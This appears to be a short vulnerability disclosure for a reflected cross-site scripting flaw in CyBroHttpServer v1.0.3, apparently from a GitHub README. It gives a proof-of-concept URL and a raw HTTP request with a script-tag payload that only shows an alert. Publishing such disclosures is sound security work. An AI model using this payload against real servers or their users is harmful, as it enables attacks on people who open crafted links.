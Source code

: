 # CyBroHttpServer-v1.0.3-Reflected-XSS
Reflected XSS in CyBroHttpServer v1.0.3 impacts users who open a maliciously crafted link or third-party web page.

# PoC
To exploit vulnerability, someone could use 'http://[host]/<script>alert("selfxss");</script>' request to impact users who open a maliciously crafted link or third-party web page.


```
GET <script>alert('selfxss');</script> HTTP/1.1
Host: 192.168.43.102:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://emreovunc.com/blog/en/CyBroHttpServer-v1.0.3-XSS.png)
